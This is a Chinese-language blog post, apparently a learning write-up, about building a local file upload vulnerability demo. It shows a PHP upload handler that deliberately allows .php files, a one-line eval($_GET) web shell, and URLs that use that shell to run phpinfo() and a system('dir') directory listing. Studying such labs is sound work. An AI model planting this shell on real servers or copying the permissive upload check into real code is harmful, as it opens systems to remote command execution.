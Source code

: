 ```yaml
---
title: 文件上传 Get
date: 2023-10-17T18:26:52+08:00
slug: c659435
description: 从文件生成漏洞延伸出来的一个简单研究
tags:
  - LEARN
categories:
  - DIG
---
```


# begin

  

>写了file upload的短分享ppt然后得到自己可以写一个demo的问题，于是开始。

  

在得到demotest这个可以使用的本地网站之前经历了一场405风暴。<br>

  

<!-- more -->

  

## 源代码

首先先写了网页代码，index.html和upload.php

```html

index.html

  

<html>

<head>

<meta charset="utf-8">

<title>demo2</title>

</head>

<body>

  

<form action="upload_file.php" method="post" enctype="multipart/form-data">

    <label for="file">文件名：</label>

    <input type="file" name="file" id="file"><br>

    <input type="submit" name="submit" value="提交">

</form>

  

</body>

</html>

```

  

```php

upload.php

  

<?php

// 允许上传的图片后缀

$allowedExts = array("gif", "jpeg", "jpg", "png","php");

$temp = explode(".", $_FILES["file"]["name"]);

echo $_FILES["file"]["size"];

$extension = end($temp);     // 获取文件后缀名

if ((($_FILES["file"]["type"] == "image/gif")

|| ($_FILES["file"]["type"] == "image/jpeg")

|| ($_FILES["file"]["type"] == "image/jpg")

|| ($_FILES["file"]["type"] == "image/pjpeg")

|| ($_FILES["file"]["type"] == "image/x-png")

|| ($_FILES["file"]["type"] == "image/png")

|| ($_FILES["file"]["type"] == "application/octet-stream"))

&& ($_FILES["file"]["size"] < 204800)   // 小于 200 kb

&& in_array($extension, $allowedExts))

{

    if ($_FILES["file"]["error"] > 0)

    {

        echo "错误：: " . $_FILES["file"]["error"] . "<br>";

    }

    else

    {

        echo "上传文件名: " . $_FILES["file"]["name"] . "<br>";

        echo "文件类型: " . $_FILES["file"]["type"] . "<br>";

        echo "文件大小: " . ($_FILES["file"]["size"] / 1024) . " kB<br>";

        echo "文件临时存储的位置: " . $_FILES["file"]["tmp_name"] . "<br>";

        // 判断当期目录下的 upload 目录是否存在该文件

        // 如果没有 upload 目录，你需要创建它，upload 目录权限为 777

        if (file_exists("upload/" . $_FILES["file"]["name"]))

        {

            echo $_FILES["file"]["name"] . " 文件已经存在。 ";

        }

        else

        {

            // 如果 upload 目录不存在该文件则将文件上传到 upload 目录下

            move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $_FILES["file"]["name"]);

            echo "文件存储在: " . "upload/" . $_FILES["file"]["name"];

        }

    }

}

else

{

    echo "非法的文件格式";

}

?>

```

  

<font size=1>php代码是有限制的（网上找的所以只是简单修改了限制条件）</font>

  

## 405 Method not allowed

然后我就GoLive<br>

<img src=https://github.com/66lueflam144/66lueflam144.github.io/blob/gh-pages/img/in-post/demo%E5%88%9D%E5%A7%8B%E5%8C%96.png>

<br>一切都很美好，然后上传文件

<img src=https://github.com/66lueflam144/66lueflam144.github.io/blob/gh-pages/img/in-post/405.png>

无论是什么文件都是405，405，405...<br>

抓耳挠腮到处找<br>

最后burp suite抓包获得Response

```response

...

Access-Control-Allow-Credentials:true

Allow:GET.HEAD,OPTIONS

...

```

  

可能是edge web server的限制吧——添加js、修改为Flask无果。于是通过phpstudy建立本地网站。<br>

  

建立网站，写好域名，选好根目录之后，把index.html和upload.php移入根目录中，打开网站运行成功，上传功能正常，可喜可贺，感天动地。

  

# Upload Method=GET file

  

## 上传ing and test

上传一个`get2.php`文件，内容为

```php

<? php eval($_GET[1]); ?>

```

  

与之前写的一句话木马都不一样，

- 这次使用的是`GET`方法

- 去除了eval()前面的@符号，不然看不到任何回显

  

上传成功之后回显文件上传到了`upload/，我们通过`eval()`函数的原理，对`1`进行赋值（替换）<br>

```

http://example.com/upload/get2.php?1=phpinfo();

```

  

就会看到phpinfo——说明上传成功也能被正确解析执行。<br>之前写的是`GET['shell']`，进行替换的时候被错误解析无法执行，报错*Parse error:syntax error, unexpected end of file:....:get2.php(1):eval()'d code on line 1*,因为对`shell`进行赋值都是`GET['xxx']`，会被当作是字符执行。<br>

  

测试通过之后，进行输出目录。

  

## dir

因为搭建网站的环境是windows，所以使用`dir`命令来输出目录，如果是linux就用`ls`。

  

查询<a href=https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/dir>dir官方文档</a>之后，构建：

  

```url

http://example.com/upload/get2.php?1=system(%27dir%20/b/s/w/o/p%27);

```

  

界面就回显了一排整齐的文件的所在地址

  

接下来还可以通过其他命令进入这些文件里面进行一些操作。
